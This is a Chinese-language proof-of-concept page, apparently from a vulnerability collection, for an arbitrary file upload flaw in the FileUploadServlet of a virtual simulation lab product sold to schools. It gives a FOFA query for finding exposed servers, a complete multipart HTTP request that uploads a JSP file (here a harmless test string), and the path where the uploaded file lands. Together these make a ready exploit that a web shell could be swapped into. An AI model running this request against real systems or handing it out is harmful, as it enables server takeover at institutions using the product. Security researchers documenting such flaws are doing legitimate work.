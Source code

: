 ## **虚拟仿真实验室系统FileUploadServlet存在任意文件上传漏洞**

北京润尼尔科技股份有限公司（原北京润尼尔网络科技有限公司，以下简称“润尼尔或公司”）于2007年12月成立，实缴注册资本2483万，是一家在北京石景山区注册的国家高新技术企业、北京市专精特新企业，四届蝉联 “中国VR50强企业”。目前在武汉、西安、上海、成都、合肥、哈尔滨等地设立了分支机构。公司以虚拟仿真技术和网络技术为依托，面向各类学校提供集虚拟仿真教学资源、管理平台和虚拟现实设备为一体的“VR+教育”整体解决方案，旨在提高学生的实践动手能力，助力学校提高人才培养质量。北京润尼尔科技股份有限公司虚拟仿真实验室系统FileUploadServlet存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

![image-20240711190816566](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407111908243.png)

## fofa

```yaml
body="virexp/s"
```

## poc

```yaml
POST /chatroom/FileUploadServlet HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=D608C8AF5AC63FB5DA57B858CFC42B42
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGIc4ig8R
Content-Length: 153

------WebKitFormBoundaryGIc4ig8R
Content-Disposition: form-data; name="aaa"; filename="1234.jsp"

<% out.println("testqqww"); %>
------WebKitFormBoundaryGIc4ig8R--
```

![img](https://cdn.nlark.com/yuque/0/2024/png/10358436/1720276416352-970a7928-f599-4645-b0d5-bf1c33db5b8c.png?x-oss-process=image%2Fwatermark%2Ctype_d3F5LW1pY3JvaGVp%2Csize_9%2Ctext_5pif5oKm5a6J5YWo%2Ccolor_FFFFFF%2Cshadow_50%2Ct_80%2Cg_se%2Cx_10%2Cy_10%2Fformat%2Cwebp)



文件路径`/chatroom/uploadFile/1234.jsp`
